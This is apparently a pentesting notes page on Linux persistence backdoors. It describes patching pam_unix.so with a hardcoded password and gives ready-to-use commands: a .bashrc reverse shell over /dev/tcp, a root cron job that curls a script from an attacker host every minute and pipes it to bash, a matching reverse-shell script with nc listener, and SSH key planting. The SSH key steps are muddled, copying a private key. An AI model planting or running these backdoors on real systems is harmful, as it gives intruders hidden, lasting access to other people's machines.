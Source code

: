 # 🚪 Backdoors

<figure><img src="../.gitbook/assets/door.gif" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:blue;">A backdoor refers to</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**any method**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">by which</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**authorized**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">and</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**unauthorized users**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">are able to get around normal security measures and</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**gain high level**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">user access (aka root access) on a computer</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**system**</mark><mark style="color:blue;">,</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**network**</mark><mark style="color:blue;">, or</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**software application**</mark><mark style="color:blue;">.</mark>&#x20;

<mark style="color:blue;">They are known for being</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**discreet**</mark><mark style="color:blue;">. Backdoors exist for a select group of people in the know to</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**gain easy access to a system or application**</mark><mark style="color:blue;">.</mark>
{% endhint %}

## | `PAM backdoor` |

{% hint style="info" %}
<mark style="color:blue;">This backdoor essentially consists of</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**adding your own password**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">to the</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**pam\_unix.so**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">file</mark>
{% endhint %}

_pam\_unix.so_ file is responsible for **authentication**

![](<../.gitbook/assets/image (10).png>)

_pam\_unix.so_ uses the unix\_verify\_password function to verify to user's supplied password **:**&#x20;

![we added a new line to our code : if (strcmp(p, "0xMitsurugi") != 0 )](<../.gitbook/assets/image (16).png>)

## | `.bashsrc backdoor` |

{% hint style="info" %}
<mark style="color:blue;">If a user has</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**bash**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">as their</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**login shell**</mark><mark style="color:blue;">, the "</mark><mark style="color:blue;">**.bashrc**</mark><mark style="color:blue;">" file in their home directory is</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**executed**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">when an interactive session is launched.</mark>
{% endhint %}

Any user that log in often :&#x20;

```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

**Put a nc listener**

## | `CronJob backdoor` |

### With a root access

{% hint style="info" %}
_<mark style="color:blue;">cronjobs file -></mark> <mark style="color:blue;"></mark><mark style="color:blue;">**/etc/cronjob**</mark>_
{% endhint %}

Configure a task where every minute a reverse shell is sent to you. Add this line into our cronjob file :

```
* *     * * *   root    curl http://$attacker_ip:8080/shell | bash
```

Add this to the **shell** file :

```bash
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
```

On the attacker machine :

```bash
nc -nvlp $port
```

## | `SSH Backdoor` |

{% hint style="info" %}
<mark style="color:blue;">Consists in</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**saving**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">our</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**ssh keys**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">in some</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**user’s home**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">directory. Then we can access it via ssh.</mark>
{% endhint %}

#### Generate ssh key

```bash
ssh-keygen
```

#### Copy our key into the user's .ssh directory

```bash
mkdir .ssh 
cp id_rsa .ssh/id_rsa
```
